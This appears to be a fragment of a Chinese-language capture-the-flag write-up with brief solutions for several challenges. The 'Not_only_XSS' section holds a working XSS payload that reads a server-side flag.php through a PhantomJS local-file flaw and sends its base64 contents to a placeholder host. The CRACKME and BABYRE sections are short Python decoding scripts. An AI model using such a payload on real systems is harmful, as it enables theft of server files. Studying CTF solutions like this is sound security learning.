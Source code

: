 然后拿到flag：

![1](1.jpg)

### Not_only_XSS

算是phantomjs 的本地文件读取漏洞:

secret=\<script>function reqListener () {var b64 = btoa(this.responseText);(new Image()).src="ip"%2bb64;}var oReq = new XMLHttpRequest();oReq.addEventListener("load", reqListener);oReq.open("GET", "file:///var/www/html/flag.php");oReq.send();\</script>

###CRACKME

```python
#CRACKME
t = [59, 102, 49, 75, 51, 123, 99, 53, 58, 101, 102, 108, 50, 49, 116, 52, 59, 49, 116, 49, 122, 97, 120, 112, 105, 109, 57, 125, 53, 43, 63, 103, 116, 117, 120, 59, 61, 118, 99, 57, 118, 123, 118, 55, 43, 98, 117, 104, 85, 123, 98, 84, 61, 45, 97, 109, 50, 113, 125, 61, 102, 104, 91, 120, 107, 123, 121, 63, 120, 114, 113, 101, 123, 63, 125, 108, 53, 45, 115, 100, 50, 45, 77, 111, 43, 58, 106, 123, 57, 61, 115, 89, 91, 100, 97, 108, 118, 112, 120, 63, 122, 51, 123, 63, 110, 111, 123, 91, 107, 53, 108, 108, 123, 122, 106, 115, 117, 53, 91, 107, 102, 108, 97, 43, 114, 54, 90, 103, 55, 50, 111, 48, 115, 107, 113, 54, 99, 71, 108, 53, 99, 119, 91, 61, 100, 63, 51, 118, 57, 113, 53, 45, 118, 107, 106, 83, 118, 123, 52, 115, 113, 116, 103, 61, 102, 48, 99, 122, 123, 43, 106, 117, 114, 106, 102, 108, 91, 116, 98, 93, 108, 114, 102, 70, 49, 59, 50, 125, 117, 100, 104, 98, 63, 48, 103, 56, 123, 111, 109, 58, 84, 52, 100, 104, 59, 122, 58, 111, 122, 45, 68, 110, 61, 109, 61, 117, 120, 59, 111, 91, 103, 115, 57, 123, 43, 122, 113, 120, 43, 115, 113, 45, 100, 115, 120, 99, 116, 99, 118, 121, 107, 85, 115, 50, 111, 100, 100, 114, 116, 52, 51, 112, 119, 118, 58, 102, 48, 59, 110, 106, 107, 114, 98, 57, 108, 111, 115, 54, 103, 48, 123, 105, 104, 63, 114, 113, 97, 110, 116, 102, 120, 36, 115, 115, 108, 113, 100, 58, 114, 118, 113, 105, 120, 114, 59, 106, 123, 63, 111, 58, 115, 110, 43, 91, 105, 91, 121, 65, 49, 49, 59, 103, 115, 109, 114, 56, 108, 109, 48, 63, 51, 125, 59, 43, 105, 118, 43, 84, 102, 58]
s = ''
for i in xrange(0,len(t),10):
    s += chr(t[i+1])
print s
```

### BABYRE

```python
#BABYRE
t = [102,109,99,100,127,107,55,100,59,86,96,59,110,112]
s = ''
for i,v in enumerate(t):
    s += chr(v^i)
print s
```
### EasyHook
